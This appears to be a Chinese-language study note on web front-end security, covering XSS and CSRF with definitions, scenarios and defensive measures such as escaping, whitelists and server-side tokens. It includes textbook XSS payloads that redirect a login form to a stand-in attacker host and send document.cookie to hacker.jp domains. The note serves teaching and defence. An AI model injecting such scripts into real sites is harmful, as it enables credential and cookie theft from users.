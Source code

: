# Web 前端安全

__前言:__网络安全一直是风口浪尖，尤其这几年随着前端的发展和变化，前端的安全问题日益突出多学习。参考：《图解HTTP》

## XSS 跨站脚本攻击(Cross Site Scriping)

>定义：

* Cross-Site Scripting 指通过存在安全漏洞的Web网站注册用户的浏览器内运行非法的HTML标签或js运行的一种攻击

>特点：

* 攻击者利用预先设置的陷阱触发的被动攻击
* 在动态生成HTML处生成

>场景：

* 登陆页表单验证

```HTML
ID <input type="text" name="ID" value=""><script> var f = document.getElementById("login"); f.action = "http://hack.jp/pwget";f.method = "get";</script><span s="" />
```

* 恶意构造脚本，窃取用户的Cookie信息

```HTML
<script src="http://hacker.jp/xss.js">
var content = escape(document.cookie);
document.write("<img src=http://hackr.jp/?");
document.write(content);
document.write(">");
```
补充：[有关编码函数escape](https://www.cnblogs.com/season-huang/p/3439277.html)

[讲的比较好的博文](https://blog.csdn.net/ghsau/article/details/17027893)

>代码层面的解决思路

首先要列出一份黑白名单，白名单放行，黑名单的话需要检测与拦截，
接下来的防范措施分4步：

1、识别内联脚本进行拦截
比如去寻找某标签中内嵌的"javascript:alert(1)"这种要用正则识别出来并且改成"javascript:void(0)",

2、重点字符如'<>',"",进行过滤转化为&lt,&gt,&quot等实体(比如我看到的腾讯官网在写简历的时候连双引号都给滤掉了)

3、重写document.write、apply、call等方法使其不能被篡改。

4、受到攻击时发邮件给程序员并完善黑名单。。。。（这种能发现的攻击就是已经被滤掉了的，只能完善黑名单，但并不能使本身系统变完善）

补充：白名单指的是允许的标签或属性等字段(黑名单相反)

[httphijack库解析](http://sbco.cc/2016/08/16/httphijack/)

## CSRF 跨站点请求伪造(Cross-site request forgery)

>定义：

* 攻击者通过设置好的陷阱，强制对已完成认证的用户进行非预期的个人信息或设定信息等某些状态更新，属于被动攻击。

>过程理解(以留言板为实际场景举例)

* 用户在留言板登陆，认证通过得到cookie：sid

* 攻击者在留言板上留下含恶意代码的评论如：

    ```HTML
    <img src="http://example.com/msg?q=你好">
    ```

* 用户触发陷阱，攻击者利用用户的权限发表用户非主观的动作（也就相当于是冒用别人的名义做一些事情），因为此时用户的浏览器的Cookie持有已认证的会话ID。

>代码层面的解决思路

不同的解决方案都有一个本质，那就是在客户端发送一个可以说加密也可以说复杂化的验证信息与服务器端的相对应才允许请求发送，这个真正有效且强大的方案还是要在服务器端进行，切图仔前辈在介绍xss攻击时也说到过高明的攻击会绕过前端的一切攻击。。。。看了下源码大致方案就是先checkuser，通过后服务器端生成了个hash的cookie通过res.setHeader里的set-cookie

[淘宝某工程师的解析](https://cnodejs.org/topic/4fb3bb6f1975fe1e13302cc7)

## 未完待续
